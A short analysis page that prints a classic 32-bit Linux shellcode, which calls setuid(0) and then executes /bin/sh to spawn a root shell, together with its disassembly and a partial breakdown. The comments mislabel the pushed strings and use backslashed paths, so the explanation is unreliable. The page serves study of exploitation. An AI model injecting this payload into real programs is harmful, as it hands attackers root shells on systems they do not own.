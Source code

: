 ## Shellcode analysis case 1

----

#### Shellcode - Spawns a root shell on Linux : [source](https://www.tenouk.com/Bufferoverflowc/Bufferoverflow6.html) 
```
\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52
\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89
\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80
```
```
Dissassembly-
0:  31 c0                   xor    eax,eax
2:  89 c3                   mov    ebx,eax
4:  b0 17                   mov    al,0x17
6:  cd 80                   int    0x80
8:  31 d2                   xor    edx,edx
a:  52                      push   edx
b:  68 6e 2f 73 68          push   0x68732f6e
10: 68 2f 2f 62 69          push   0x69622f2f
15: 89 e3                   mov    ebx,esp
17: 52                      push   edx
18: 53                      push   ebx
19: 89 e1                   mov    ecx,esp
1b: 8d 42 0b                lea    eax,[edx+0xb]
1e: cd 80                   int    0x80 
```
Breakdown-

```assembly
xor    eax,eax ; zero's out the eax register
mov    ebx,eax
mov    al,0x17
int    0x80

;Pushed the text "\bin\sh" onto the stack which spawns the sh shell

push   0x68732f6e - little endian hex code "\sh"
push   0x69622f2f - little endian hex code "\bin"
```
